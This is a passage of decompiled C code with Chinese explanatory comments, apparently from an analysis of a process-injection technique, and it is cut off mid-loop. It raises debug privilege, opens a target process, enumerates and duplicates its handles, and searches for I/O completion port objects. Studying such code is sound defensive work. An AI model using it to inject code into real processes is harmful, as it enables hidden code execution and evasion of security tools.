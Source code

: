 ```
      //应用
    AdjustTokenPrivileges(TokenHandle, 0, &Luid, 0x10u, 0i64, 0i64);
    if ( !GetLastError() )
      CloseHandle(TokenHandle);
  }
    //调用Ntdll中的提权函数
  RtlAdjustPrivilege(0x14u, 1u, 0, OldValue);
    //打开进程
  v10 = OpenProcess(0x478u, 0, dwProcessId);
    //打开成功
if ( v10 )
  {//保存进程句柄到全局变量和输出参数
    hProcess = v10;
    *a6 = v10;
    v12 = hProcess;
     
    //初始化变量用于查询系统句柄信息
    v22 = 0;
    v13 = 0;
    v14 = malloc(0x10000ui64);
    LODWORD(TokenHandle) = 0;
      //不断增大缓冲区直至成功获取所有系统句柄信息。
    while ( 1 )
    {
      v14 = realloc(v14, v13);
      if ( NtQuerySystemInformation(SystemHandleInformation, v14, v13, &TokenHandle) != -1073741820 )
        break;
      v13 = TokenHandle;
    }
      //循环遍历所获得的系统信息
    for ( i = 0; i < *v14; ++i )
    {
      v26 = *&v14[6 * i + 2];//提取句柄信息
      v27 = v26;
        //检查句柄是否属于目标进程
      if ( v26 == GetProcessId(v12) )
      {
        *&Luid.PrivilegeCount = 0i64;
        v16 = GetCurrentProcess();
          //尝试复制句柄到当前进程
        if ( DuplicateHandle(v12, WORD3(v27), v16, &Luid, 0, 0, 2u) )
        {
          v17 = *&Luid.PrivilegeCount;//保存复制的句柄
          v18 = 0;
          ObjectInformationLength = 0;
          v19 = 0i64;
            //查询对象类型信息
          while ( 1 )
          {
            v19 = realloc(v19, v18);
            if ( NtQueryObject(v17, ObjectTypeInformation, v19, ObjectInformationLength, &ObjectInformationLength) != -1073741820 )
              break;
            v18 = ObjectInformationLength;
          }
            //试图确认当前内核对象的类型是否为 &#34;IoCompletion&#34;（I/O完成端口对象）
          v20 = v19[1];
          v21 = -1i64;
          while ( aIocompletion[v21 + 1] == *(v20 + 2 * v21 + 2) )
          {
            v21 += 2i64;
            if ( v21 == 13 )
```